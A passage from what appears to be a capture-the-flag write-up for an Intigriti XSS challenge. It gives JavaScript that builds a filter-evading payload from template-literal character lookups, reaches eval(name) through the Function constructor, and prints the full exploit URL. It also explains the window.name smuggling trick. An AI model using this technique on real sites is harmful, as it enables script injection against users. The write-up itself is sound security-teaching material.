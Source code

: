 It's 376 characters long, almost 100 characters less than the previous one.

The complete code used to generate it is:

``` js
const mapping = {
  a: '`${0/0}`[1]',
  b: '`${e}`[2]',
  c: '`${e}`[5]',
  d: '`${e[0]}`[2]',
  e: '`e`',
  f: '`${e[0]}`[4]',
  g: '`${e}`[15]',
  i: '`${e[0]}`[5]',
  j: '`${e}`[3]',
  l: '`${e}`[21]',
  m: '`${e}`[23]',
  n: '`${e}`[25]',
  o: '`${e}`[1]',
  r: '`${e}`[13]',
  s: '`${e}`[18]',
  t: '`${e}`[6]',
  u: '`${e[0]}`[0]',
  ".": '`.`'
}

function getString(str) {
  return str.split('').map(c => mapping[c] || 'errorerror:' + c).join('+')
}

const some = getString('some')
mapping['('] = '`${[][' + some + ']}`[13]'
mapping[')'] = '`${[][' + some + ']}`[14]'

mapping.v = '`${[][' + getString('some') + ']}`[23]'

const ans = 
  "[][" + 
  getString('some') + 
  "]["+
  getString('constructor') +
  "]`_${" + 
  getString('eval(name)') +
  "}```"

console.log('length:', ans.length)
console.log('======= Payload =======')
console.log(ans)
console.log('======= URL =======')
console.log('https://challenge-0521.intigriti.io/captcha.php?c=' + ans.replace(/\+/g, '%2b'))
```

Some people may not understand why `eval(name)` works. This is because `window.name` is a magical property. Basically, the `name` of the same page will be the same, so we just need to create a new HTML page, write JS inside it, and set `window.name = 'alert(document.domain)'`. Then use `location=` to jump to the PHP side, where `name` will be what we just set.
